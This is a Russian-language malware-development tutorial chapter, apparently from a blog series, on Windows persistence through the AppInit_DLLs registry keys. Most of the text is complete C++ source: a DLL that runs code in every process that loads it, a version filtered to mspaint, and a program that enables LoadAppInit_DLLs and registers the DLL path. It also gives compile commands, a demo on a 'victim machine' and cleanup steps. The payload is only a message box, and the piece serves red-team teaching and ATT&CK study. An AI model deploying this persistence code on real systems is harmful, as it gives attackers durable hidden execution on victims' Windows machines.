\newpage
\subsection{71. Разработка вредоносного ПО: закрепление (persistence) - часть 5. AppInit_DLLs. Простой пример на C++.}

{width="80%"}    

Этот раздел является продолжением серии статей о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного метода закрепления: AppInit_DLLs.

Операционные системы Windows позволяют практически всем приложениям загружать пользовательские DLL в своё адресное пространство.
Это открывает возможность для закрепления в системе, так как любая DLL может быть загружена и выполнена при создании процесса в системе.

### AppInit DLLs

Для реализации этого метода необходимы права администратора. Загрузка DLL через AppInit регулируется следующими ключами реестра:

- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows` - 32-битные системы     

- `HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows` - 64-битные системы    

Нас интересуют следующие параметры:      

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

{width="80%"}    

Для `64-битных` систем:

```powershell
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" \
 /s
```

{width="80%"}    

Microsoft по умолчанию отключила загрузку DLL через AppInit (`LoadAppInit_DLLs`) для защиты пользователей Windows от вредоносных программ. Однако установка ключа реестра `LoadAppInit_DLLs` в значение `1` включит эту возможность.

### практический пример

Сначала создадим "вредоносную" DLL. Как обычно, используем простую логику всплывающего окна "meow-meow":    

```cpp
/*
evil.cpp
инъекция через AppInit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Скомпилируем её:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

Теперь простая логика: изменяем ключ реестра `AppInit_DLLs`, добавляя в него путь к DLL, в результате чего `evil.dll` будет загружена.

Для этого создадим другое приложение `pers.cpp`:


```cpp
/*
pers.cpp
windows low level persistense via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\2022-05-16-malware-pers-5\\evil.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
    0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
    0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\
  Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
    0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
    0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, установка ключа реестра `LoadAppInit_DLLs` в значение `1` также важна.    

Скомпилируем `pers.cpp`:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

### демонстрация

Давайте посмотрим, как всё работает! Сбрасываем файлы на машину жертвы (`Windows 10 x64` в моем случае).

Затем запускаем с правами администратора:

```powershell
.\pers.exe
```

и выполняем команду для проверки:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
 /s
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\
Windows" /s
```

{width="80%"}    

Далее, для демонстрации, откроем что-то вроде `Paint` или `Notepad`:

{width="80%"}    

{width="80%"}    

Как видите, всё работает идеально! :)

### второй пример

Однако реализация этого метода может привести к проблемам со стабильностью и производительностью системы:

{width="80%"}    

Кроме того, логика первой DLL выглядит довольно странно, поскольку всплывают несколько окон с сообщениями, что создаёт "шум" в реальной атаке красной команды, например, при множественных соединениях обратного shell.

Я немного обновил логику `evil.dll`:

```cpp
/*
evil2.cpp
inject via Appinit_DLLs - only for `mspaint.exe`
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
    char *Begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
      pattern++;
    }
    if (!*pattern)
  	  return Begin;

    str = Begin + 1;
  }
  return NULL;
}

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  char path[MAX_PATH];
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    GetModuleFileName(NULL, path, MAX_PATH);
    if (subStr(path, (char *)"paint")) {
      runMe();
    }
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как видите, если текущий процесс - `paint` (и он 32-битный), то происходит "инъекция" :)

{width="80%"}    

Отлично! :)

{width="80%"}    

### Очистка после эксперимента

```powershell
reg add \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
/v LoadAppInit_DLLs /d 0
reg add \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
/v AppInit_DLLs /t REG_SZ /f
```

{width="80%"}    

Этот метод не нов, но на него стоит обратить внимание. В реальных атаках этот трюк часто использовался такими группами, как [APT 39](https://attack.mitre.org/groups/G0087), а также в малвари, такой как [Ramsay](https://attack.mitre.org/software/S0458/).

[MITRE ATT&CK: APPInit_DLLs](https://attack.mitre.org/techniques/T1546/010/)    
[APT39](https://attack.mitre.org/groups/G0087)    
[Ramsay](https://attack.mitre.org/software/S0458/)    
[исходный код на github](https://github.com/cocomelonc/2022-05-16-malware-pers-5)    
